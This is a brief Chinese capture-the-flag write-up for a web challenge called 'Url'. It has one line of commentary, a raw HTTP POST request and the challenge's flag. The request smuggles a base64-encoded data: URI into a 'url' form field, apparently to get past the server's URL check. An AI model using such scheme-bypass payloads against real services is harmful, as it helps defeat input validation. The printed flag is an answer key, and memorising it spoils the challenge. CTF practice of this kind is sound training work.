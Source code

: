 # Url

> 挺傻逼的一道题目

## 思路分析

> post发送数据,什么提示也没有,什么线索也没有

## payload

```
POST / HTTP/1.1
Host: 61.147.171.105:52887
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 58
Content-Type: application/x-www-form-urlencoded

url=data%3A%2F%2Fbaidu.com%2Fplain%3Bbase64%2CbjNrMA%3D%3D
```

## flag

> flag{CB69174D05A7B042E7986A8AAEDDEF05}